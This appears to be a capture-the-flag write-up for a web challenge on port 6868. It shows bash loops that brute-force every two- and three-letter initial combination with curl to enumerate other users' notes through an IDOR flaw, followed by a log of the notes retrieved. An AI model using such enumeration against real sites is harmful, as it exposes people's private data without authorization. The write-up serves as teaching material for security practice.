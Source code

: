 Found 2 directories in testing which are shared. The first was found via the images links on the main page the second was discovered in the json returns from the create user option.

Dirs
* files/<INITIALS>/0
* notes/<INITALS>/0

Manually stepped through the images which were shared already via the main page. They are
* MC
* TW
* BD

No **contiguous** image was revealed.

Looking at their notes for these 3 users, We find the following peices of information:

Two names which do not appear in the above
* Beth - Site Admin
* John - From a band

Also, there are middle initials for unnames users, or those above, starting with U, D and D.

When creating a user, All caps are used and the directory created is First Initial, Middle Initial and Last Initial. So, 3 characters, such as FML. Potentially, leaving middle blank will result in a 1 character.

Thus, we should be able to brute force this space with some bash scripting.

### 3 character brute force
```
for a in {A..Z}; do for b in {A..Z}; do for c in {A..Z}; do echo "$(curl http://localhost:6868/notes/$a$b$c --silent) -- $a$b$c" | tee -a 3combo.txt; done; done; done
 1188  for a in {A..Z}; do for b in {A..Z}; do for c in {A..Z}; do echo "$(curl http://localhost:6868/notes/$a$b$c/0 --silent) -- $a$b$c" | tee -a 3combo.txt; done; done; done
```

### 2 character brute force
```
for a in {A..Z}; do for b in {A..Z}; do echo "$(curl http://localhost:6868/notes/$a$b/0 --silent | base64) -- $a$b" | tee -a 2combo_pics.txt; done; done
```

However, doing this brute forcing, only able to find known users and created users

Tried doing the same with the 2 character for the images images directories, but found the same again too.

Log of the notes:
```
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/BD/0 && echo ""
Had a bagel today, it was pretty ok.
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/BD/1 && echo ""
Beth, the site admin, keeps hassling me about consenting to the site changes so she can improve security. I don't see the point tbh, site seems good as it is.
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/BD/2 && echo ""
ಠ_ಠ
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/BD/3 && echo ""
Invalid Note ID
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/TW0 && echo ""
Page Not Found
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/TW/0 && echo ""
TODO:
* Get back to John of the "John likes music" band about shooting times
* Respond to Miss Yager's to confirm that I am ok with her site changes
* Buy another camera. You can never have too many.
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/TW/1 && echo ""
(╯ ͠° ͟ʖ ͡°)╯┻━┻
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/TW/2 && echo ""
I swear if someone asks me to photograph something for free again I'm going to lose it.
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/TW/3 && echo ""
\Invalid Note ID
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/MC/0 && echo ""
REMINDER!!!

Pick up the replacement lens for the Nikon!
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/MC/1 && echo ""
¯\_( ͡° ͜ʖ ͡°)_/¯
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/MC/2 && echo ""
Weirdest thing happened today. I was in the "Photos5u" main office and there was this woman, I think she was one of the techies, and she was ranting about "Eye Doors" or something to the owner. Apparently, our middle names are a threat to the site?!?!? 

Honestly, with middle names like "Ulysses Denise Donnoly" you'd think she'd be happy about hers being in use. Actually now that I think about it, she's probably embaressed about her intials.   


```

The last one, something about IDOR and the middle names it seems.
